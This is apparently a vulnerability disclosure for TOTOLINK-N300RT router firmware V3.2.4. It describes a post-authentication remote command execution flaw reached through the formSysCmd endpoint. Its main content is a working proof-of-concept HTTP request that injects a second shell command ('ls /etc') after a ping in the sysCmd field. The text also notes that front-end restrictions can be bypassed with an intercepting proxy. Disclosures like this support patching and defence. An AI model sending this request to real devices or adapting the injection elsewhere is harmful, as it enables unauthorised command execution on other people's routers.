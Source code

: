 ## TOTOLINK-N300RT
Product:TOTOLINK-N300RT
Firmware Version: TOTOLINK-N300RT  V3.2.4-B20180730.0906
Link:http://www.totolink.cn/

### description
TOTOLINK-N300RT has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that

POC：
```
POST /boafrm/formSysCmd HTTP/1.1
Host: 192.168.1.1:80
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1:80
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0
Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,ima
ge/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
sysCmdselect=5&sysCmdselects=0&apply=Run+Command&sysCmd=p
ing+8.8.8.8;ls /etc&submit-url=%2Fsyscmd.htm&msg=
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/471c1696-2a8f-4640-b739-cef4b9d3d516
